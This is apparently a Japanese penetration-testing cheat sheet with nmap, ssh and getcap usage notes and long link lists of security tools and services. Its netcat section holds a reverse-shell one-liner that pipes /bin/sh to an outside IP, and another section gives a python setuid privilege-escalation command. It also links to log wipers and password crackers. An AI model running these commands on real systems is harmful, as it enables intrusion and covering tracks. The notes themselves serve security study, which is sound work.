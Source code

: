 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### POC Tools

https://github.com/mbechler/marshalsec

### Linux

https://access.redhat.com/documentation/ja-jp/red_hat_enterprise_linux/7/html/security_guide/sec-using-aide

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://app.netlas.io  

[Finding Vulnerable Systems Across the Internet with Netlas.io](https://www.hackers-arise.com/post/open-source-intelligence-osint-finding-vulnerable-systems-across-the-internet-with-netlas-io)

https://www.exabeam.com/

https://www.adaptive-shield.com/

https://regexr.com/

https://houdini.secsi.io/

https://github.com/Datadog/stratus-red-team/

https://snyk.io/

https://www.cisa.gov/free-cybersecurity-services-and-tools

https://www.blueteamsacademy.com/top20/

https://www.traceable.ai/

https://www.araalinetworks.com/araali-lens

https://www.gigamon.com/

https://deepfence.io/threatmapper/

### OSS

https://github.com/awslabs/git-secrets

https://github.com/sobolevn/git-secret

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://github.com/trufflesecurity/truffleHog

https://github.com/tillson/git-hound

https://github.com/decalage2/oletools

https://github.com/decalage2/ViperMonkey

https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py

https://github.com/DidierStevens/DidierStevensSuite/blob/master/zipdump.py

https://github.com/makenowjust-labs/recheck

https://github.com/KathanP19/HowToHunt

https://github.com/bridgecrewio/checkov

https://github.com/Lissy93/personal-security-checklist

https://github.com/decalage2/awesome-security-hardening

https://github.com/curiefense/curiefense

https://github.com/containers/bubblewrap

https://github.com/trufflesecurity/trufflehog

https://github.com/dropbox/zxcvbn

https://github.com/GitGuardian/ggshield

https://github.com/cisagov/cset
